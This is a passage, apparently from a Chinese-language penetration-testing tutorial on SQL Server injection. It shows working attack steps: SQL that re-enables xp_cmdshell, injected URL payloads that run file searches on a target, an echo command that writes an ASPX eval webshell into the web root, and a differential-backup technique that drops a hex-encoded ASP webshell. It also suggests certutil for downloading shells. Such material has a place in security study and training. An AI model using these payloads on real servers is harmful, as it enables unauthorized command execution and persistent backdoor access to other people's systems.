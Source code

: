 当然你可能遇到xp_cmdshell不能调用 如果报错

> SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用。

可以用如下命令恢复

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--
```

当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧

接下来我们先来看cmd中怎么查找文件。

```bash
C:\Users\Y4er>for /r e:\ %i in (1*.php) do @echo %i
e:\code\php\1.php
C:\Users\Y4er>
```

那么我们只需要建立一个表 存在一个char字段就可以了

```mssql
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```

然后通过注入去查询该表就可以了。

---

此时我们拿到绝对路径之后，我们接着往下看怎么拿shell

## xp_cmdshell拿shell

xp_cmdshell这个存储过程可以用来执行cmd命令，那么我们可以通过cmd的echo命令来写入shell，当然前提是你知道web目录的绝对路径

```mssql
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
```

由于cmd写webshell的主意这些转义的问题 推荐使用certutil或者vbs什么的来下载

## 差异备份拿shell

```mssql
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--
```
